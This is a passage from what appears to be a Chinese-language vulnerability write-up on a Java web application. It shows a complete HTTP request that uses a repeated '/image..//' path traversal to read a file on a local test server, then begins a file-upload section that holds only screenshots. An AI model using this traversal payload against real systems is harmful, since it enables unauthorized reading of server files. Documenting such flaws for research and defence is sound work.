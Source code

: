具体的 payload 还要看自己在配置文件中的`rootpath`

![image-20240131025325982](assets/1708581123-0905ad73a0d2e907297cb182b6b37508.png)

```php
GET /image//image..//image..//image..//image..//image..//image../test.txt HTTP/1.1
Host: 127.0.0.1
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120", "Google Chrome";v="120"
Cookie: JSESSIONID=ED297E0C1F3E70B122CEEEA3481786D7
Referer: http://127.0.0.1/addrmanage
Sec-Fetch-Mode: cors
Accept: text/html, */*; q=0.01
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
Sec-Fetch-Site: same-origin
Accept-Encoding: gzip, deflate, br
Origin: http://127.0.0.1
sec-ch-ua-platform: "Windows"
Sec-Fetch-Dest: empty
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 0
```

### 04、文件上传

![image-20240131030407154](assets/1708581123-a85bbedc948cafb95ccf2fa7df71d69f.png)

![image-20240131030429057](assets/1708581123-2b7cb0d1f777844ffbf34a49cc9265c9.png)
